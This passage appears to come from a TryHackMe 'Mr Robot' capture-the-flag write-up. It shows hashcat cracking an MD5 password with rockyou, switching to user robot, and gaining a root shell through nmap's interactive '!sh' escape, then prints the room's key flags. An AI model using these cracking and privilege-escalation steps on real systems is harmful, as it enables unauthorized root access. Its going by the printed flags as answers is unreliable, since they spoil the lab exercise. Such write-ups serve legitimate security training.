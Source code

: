 ```bash
kali@kali:~/Desktop$ hashcat -m 0 --force hashmrrobot /usr/share/wordlists/rockyou.txt
```

```bash
c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz
```

### #3 What is key 3?

<div className="Image__Medium">
  <img src="https://imgur.com/37RDyTP.png" alt="blog_image" />
</div>

```bash
su -l robot
Password: abcdefghijklmnopqrstuvwxyz
```

```bash
robot@linux:~$ ls
ls
key-2-of-3.txt  password.raw-md5
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```

### Final step getting root on the machine

On the TryHackMe website the hint was "nmap"

So i found this website [https://pentestlab.blog/category/privilege-escalation/](https://pentestlab.blog/category/privilege-escalation/) and it worked ! :D

```bash
robot@linux:~$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# ls
ls
key-2-of-3.txt  password.raw-md5
# cd /root
cd /root
# ls
ls
firstboot_done  key-3-of-3.txt
# cat key-3-of-3.txt
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://i.imgur.com/kUD3W5P.png" alt="TryhackMeProfile" />
  </a>
</center>
